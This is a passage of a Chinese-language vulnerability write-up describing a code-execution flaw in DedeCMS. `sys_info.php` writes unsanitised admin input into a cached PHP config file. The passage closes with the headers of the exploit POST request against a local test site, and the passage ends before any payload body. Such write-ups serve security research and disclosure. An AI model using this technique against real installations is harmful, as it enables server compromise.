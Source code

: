 
这些函数在配置文件中被定义进了disable_function。

这里的RCE是由函数`fwrite`触发的，搜索一下危险函数`fwrite`

![](https://gitee.com/fuli009/images/raw/master/public/20230616222206.png)

以`sys_info.php`为例

![](https://gitee.com/fuli009/images/raw/master/public/20230616222207.png)

根据字符串直接写入配置文件

![](https://gitee.com/fuli009/images/raw/master/public/20230616222209.png)

基本上字段有160个字段，在这里修改配置文件

![](https://gitee.com/fuli009/images/raw/master/public/20230616222210.png)

访问配置文件，路径为

![](https://gitee.com/fuli009/images/raw/master/public/20230616222211.png)

> http://dedecms.org:8016/uploads/data/config.cache.inc.php

![](https://gitee.com/fuli009/images/raw/master/public/20230616222212.png)

完美执行代码，修改配置，所有关于字段的字符串都可修改，构造payload

    
    
    POST /uploads/dede/sys_info.php HTTP/1.1  
    Host: dedecms.org:8016  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
    Accept-Encoding: gzip, deflate  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 5277  
    Origin: http://dedecms.org:8016  
    Connection: close  
    Referer: http://dedecms.org:8016/uploads/dede/sys_info.php  
    Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=2m5nqo8dsir04s541ab9c3f9i4; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=27d26bbe70ce4635; DedeLoginTime=1678950737; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=4a8556e201285aac; _csrf_name_5f9f6663=e8240231360cdb3477e421ac5afe613b; _csrf_name_5f9f66631BH21ANI1AGD297L1FF21LN02BGE1DNG=a77e938eaf09a438; ENV_GOBACK_URL=%2Fuploads%2Fdede%2Flog_list.php  
    Upgrade-Insecure-Requests: 1  
      
